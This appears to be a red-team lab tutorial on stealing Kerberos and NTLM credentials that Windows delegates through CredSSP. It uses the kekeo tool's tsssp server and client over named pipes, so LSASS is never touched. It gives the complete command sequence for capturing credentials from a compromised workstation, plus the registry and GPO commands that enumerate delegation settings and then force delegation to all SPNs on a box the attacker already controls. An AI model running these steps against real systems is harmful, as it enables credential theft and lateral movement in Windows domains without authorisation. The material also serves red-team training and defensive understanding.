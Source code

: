 # Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching LSASS

This lab is related to dumping cached Kerberos and NTLM passwords without touching LSASS. This is possible due to Active Directory feature called Credentials Delegation.

## Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

To illustrate - the below shows how a user spotless@offense attempts to access the termsrv/ws2.offense.local and is prompted to enter his credentials - this means credential delegation is not set for the termsrv \(RDP\) on ws02$ and therefore the machine ws02 does not accept delegated passwords, which results in a password prompt for the user.

{% hint style="info" %}
Default Password is a currently logged on user's password.
{% endhint %}

![](../../.gitbook/assets/annotation-2019-08-20-224950.png)

If the Credentials Delegation was enabled as shown below: 

![](../../.gitbook/assets/annotation-2019-08-20-225941.png)

...the machines that are running a termsrv \(RDP\) service would now be allowed to authenticate users who are delegating their credentials. 

Below shows how the same user spotless is attempting to connect to RDP on ws02 and gets authenticated immediately without being prompted for the password - this means that the user's credenentials were delegated and the termsrv/ws2.offense.local accepted them due to the GPO change we described earlier whereby Credential Delegation was enabled:

![](../../.gitbook/assets/rdp-password-delegation.gif)

## Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 \(running as SYSTEM\):

{% code-tabs %}
{% code-tabs-item title="attacker@ws01.offense.local" %}
```text
// needs to run as NT SYSTEM
tsssp::server
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% hint style="info" %}
Kekeo on ws01 must be running as NT\SYSTEM for this to work
{% endhint %}

Now, let's connect to the tsssp server on ws01 from the target computer ws02 \(we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe\):

{% code-tabs %}
{% code-tabs-item title="attacker@ws02.offense.local" %}
```text
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/password-delegation-password-dump-via-named-pipes.gif)

## Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration &gt; Policies &gt; Administrative Templates &gt; System &gt; Credential Delegation:

![](../../.gitbook/assets/image%20%2883%29.png)

Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:

{% code-tabs %}
{% code-tabs-item title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::server
```
{% endcode-tabs-item %}
{% endcode-tabs %}

And connect to it from another console:

{% code-tabs %}
{% code-tabs-item title="attacker@ws02" %}
```text
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows \(left\) a tsssp server is created on the ws02 system running under spotless user's context. On the right, another console running as ws02\spotless which is then connected to the `\\.\pipe\kekeo_tsssp_endpoint` named pipe, revealing user's `ws02\spotless` NTLM credentials in the console running tsssp server on the left:

![](../../.gitbook/assets/image%20%28154%29.png)

## Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```text
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system \(represented with 0x1\):

![](../../.gitbook/assets/image%20%2842%29.png)

We can then check what SPNs accept delegated credentials:

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:

![](../../.gitbook/assets/image%20%2847%29.png)

## Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```

![](../../.gitbook/assets/image%20%2840%29.png)

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```text
Get-NetGPO -UserIdentity spotless
```

![](../../.gitbook/assets/image%20%2877%29.png)

and then parse the policy file:

```text
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

![](../../.gitbook/assets/image%20%2873%29.png)

## Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:

{% code-tabs %}
{% code-tabs-item title="attacker@target" %}
```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## References

{% embed url="https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/" %}

{% embed url="https://github.com/PowerShell/GPRegistryPolicyParser" %}

